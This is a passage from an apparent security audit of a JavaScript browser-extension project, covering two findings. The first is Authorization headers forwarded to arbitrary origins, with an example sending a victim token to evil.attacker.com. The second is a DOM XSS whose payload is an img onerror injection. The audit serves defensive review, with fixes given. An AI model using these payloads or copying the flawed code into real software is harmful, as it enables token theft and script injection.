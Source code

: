 **Effort:** 3 hours

---

### HIGH-02: Proxy Authorization Headers Sent to Arbitrary Origins
**File:** `modules/security-probes.js:85-96, 199-206`
**Risk:** Credential theft, token leakage

**Problem:**
`sanitizeProbeHeaders()` explicitly preserves Authorization headers:
```javascript
if (h.name.toLowerCase() === 'authorization') {
  newHeaders.set('Authorization', `Bearer ${token}`);  // Sent to attacker.com
}
```

**Attack:**
```javascript
performAlgNoneProbe({
  url: 'https://evil.attacker.com/capture',
  requestHeaders: [{name: 'Authorization', value: 'Bearer VICTIM_TOKEN'}]
});
// Token sent to attacker
```

**Fix:**
```javascript
const dangerousHeaders = [
  'cookie', 'authorization', 'proxy-authorization',  // Add these
  'x-csrf-token', 'x-xsrf-token'
];
```

**Effort:** 2 hours

---

### HIGH-03: DOM-Based XSS in DOMSecurity Module
**File:** `modules/ui/dom-security.js:48-57`
**Risk:** Popup compromise, XSS

**Problem:**
```javascript
if (key === 'title') {
  element.setAttribute(key, value); // NO SANITIZATION
}
// className also unsanitized
```

**Attack:**
```javascript
DOMSecurity.createSafeElement('div', 'text', {
  title: '"><img src=x onerror=alert(1)>'
});
```
